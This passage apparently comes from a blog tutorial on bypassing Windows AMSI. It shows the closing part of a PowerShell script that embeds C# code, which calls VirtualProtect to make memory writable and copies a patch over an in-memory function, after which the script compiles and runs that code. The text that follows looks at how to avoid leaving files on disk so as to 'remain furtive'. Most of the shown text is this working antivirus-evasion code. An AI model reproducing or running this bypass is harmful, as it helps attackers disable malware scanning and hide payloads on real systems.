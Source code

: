 ```PowerShell

            uint oldProtect;
            Win32.VirtualProtect(addr, (UIntPtr)patch.Length, 0x40, out oldProtect);

            Marshal.Copy(patch, 0, addr, patch.Length);
            Console.WriteLine("Patch Sucessfull");
        }
        catch (Exception e)
        {
            Console.WriteLine(" [x] {0}", e.Message);
            Console.WriteLine(" [x] {0}", e.InnerException);
        }
    }

    private static bool is64Bit()
        {
            bool is64Bit = true;

            if (IntPtr.Size == 4)
                is64Bit = false;

            return is64Bit;
        }
}

class Win32
{
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);

    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@

Add-Type -TypeDefinition $Winpatch -Language CSharp
[patch]::it()
```
* Reference
    * [Adam Chester Patch](https://twitter.com/_xpn_/status/1170852932650262530)

There is a problem! And it is the use of `Add-Type`. When Add-Type is used, the code is written to a `temporary file` and then `csc.exe `is used to compile a binary that stays on disk. This creates a problem when you want to remain furtive and don't want to write anything on the disk.

![temporary file](/assets/post/AMSI-bypass/cs-temp.png)
